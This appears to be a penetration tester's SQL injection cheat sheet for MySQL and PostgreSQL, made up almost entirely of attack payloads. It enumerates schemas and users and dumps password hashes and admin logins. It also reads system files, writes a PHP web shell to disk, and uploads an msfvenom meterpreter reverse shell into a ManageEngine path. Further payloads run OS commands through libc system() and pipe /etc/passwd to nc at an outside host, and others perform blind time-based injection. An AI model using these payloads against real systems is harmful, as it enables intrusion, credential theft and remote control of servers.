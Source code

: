 
	//**Databases, Tables, and Columns:   concat(table_schema, char(58), table_name, char(58), column_name) FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
	//Databases: schema_name FROM information_schema.schemata
	//Tables: table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
		//Or: TABLE_NAME FROM information_schema.TABLES WHERE table_schema="database1"
	//Columns: column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="table1"
	//Data: column1 FROM table1 LIMIT %s,1
		ex. concat(login, char(58), password) FROM atutor.AT_admins
		//From another database: column1 FROM database2.table1
	//Users: user FROM mysql.user
	//Password Hashes (mysql): concat(host, char(58), user, char(58), password) FROM mysql.user
### Useful PostgreSQL Queries:
	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
	version();
	user; \\ current_user; \\ session_user; \\ usename FROM pg_user; \\ getpgusername();
	usename, passwd FROM pg_shadow;
	Privs:  usename, usecreatedb, usesuper, usecatupd FROM pg_user;  \\  current_setting('is_superuser');
	Admins:  usename FROM pg_user WHERE usesuper IS TRUE;
	current_database();
	inet_server_addr();
	inet_server_port();
	current_setting('data_directory');
	SELECT current_setting('hba_file');

	Databases:  SELECT datname FROM pg_database;
	Tables:  SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN ('r',") AND n.nspname NOT IN ('pg_catalog', 'pg_toast') AND pg_catalog.pg_table_is_visible(c.oid);
	    SELECT table_name FROM information_schema.tables
	Columns:  SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public');
	    SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
	Read File:  CREATE temp table mytable (content text); COPY mytable from $$c:\\Windows\\System32\\Drivers\\etc\\hosts$$; SELECT content from mytable LIMIT 1 OFFSET 0; DROP table mytable;
	    Method 2:  SELECT lo_import($$C:\\Windows\\win.ini$$,1337); select loid, pageno, encode(data, 'escape') from pg_largeobject; ->After:  SELECT lo_unlink(l.oid) FROM pg_largeobject_metadata l;  OR  SELECT lo_unlink(1337);
	Create File:  CREATE TABLE mytable (mycol text); INSERT INTO mytable(mycol) VALUES ('<?php passthru($_GET[cmd]); ?>'); COPY mytable (mycol) TO '/tmp/test.php'; 
	    Or:  COPY (SELECT $$abc$$) to $$c:\\abc.txt$$;
	    Reverse Shell Upload (use POST, with one-liner payload base64 encoded, then URL encoded):  copy (select convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
		Payload:  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
	    Method 2:  see large object method
	Run Command:  CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT; SELECT system('cat /etc/passwd | nc 10.0.0.1 8080');
	Time Delay:  SELECT pg_sleep(10);
	Base64 Encoding:  select convert_from(decode('YWJj==', 'base64'), 'utf-8');
	Hex Encoding and Concatenation:  SELECT CHR(117) || CHR(115) || CHR(101) || CHR(114);   \\same as SELECT user;
	Substitute for Quotes:  SELECT 'user';  =  SELECT $$user$$;  =  SELECT $TAG$user$TAG$;
	    ex. CREATE TEMP TABLE mytable(mycolumn text);INSERT INTO mytable(mycolumn) VALUES ($$test$$); COPY mytable(mycolumn) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;
	Blind Time-Based:
	    SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
